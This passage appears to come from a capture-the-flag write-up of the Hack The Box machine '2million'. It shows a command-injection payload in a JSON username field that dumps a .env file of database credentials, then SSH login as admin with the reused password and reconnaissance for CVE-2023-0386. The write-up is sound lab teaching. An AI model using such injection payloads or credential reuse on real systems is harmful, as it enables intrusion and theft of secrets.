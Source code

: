`{"username":"a;cat .env;"}`:
```
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

## Admin server connection

We can try to connect as admin through SSH.
```bash
$ ssh admin@2million.htb    
...
admin@2million.htb's password: 
...

admin@2million:~$ 
```
We have been connected as admin on the server, and can read the flag on `/home/admin/user.txt`.

We will try to see the admin's emails.

```bash
admin@2million:~$ cat /var/mail/admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
admin@2million:~$ 
```

## CVE-2023-0386

```bash
admin@2million:~$ uname -a
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
admin@2million:~$ cat /etc/lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=22.04
DISTRIB_CODENAME=jammy
DISTRIB_DESCRIPTION="Ubuntu 22.04.2 LTS"
admin@2million:~$ 
```
